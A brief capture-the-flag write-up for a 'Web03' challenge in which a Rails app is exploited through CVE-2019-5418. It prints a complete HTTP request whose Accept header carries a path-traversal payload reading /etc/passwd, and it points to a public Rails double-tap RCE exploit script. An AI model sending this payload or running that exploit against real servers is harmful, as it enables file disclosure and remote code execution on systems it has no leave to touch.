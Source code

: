 # Web03 (Point: 301)

## TL;DR

**Rails-doubletap-exploit to RCE**

## Vulnerability

### LFI

It was a ruby app vulnerable to CVE-2019-5418. The route `/about` was vulernable to LFI in accept header

```
GET /about HTTP/1.1
Host: 52.78.36.66:83
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: ../../../../../../etc/passwd{{
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"39c1281e9528ea22706e5964bb68108c"
Cache-Control: max-age=0
```

## Exploit

Download the Exploit script at `https://github.com/mpgn/Rails-doubletap-RCE` and run on the server to get the flag.

## Flag

The webApp was down after the challenge so couldnt fetch it.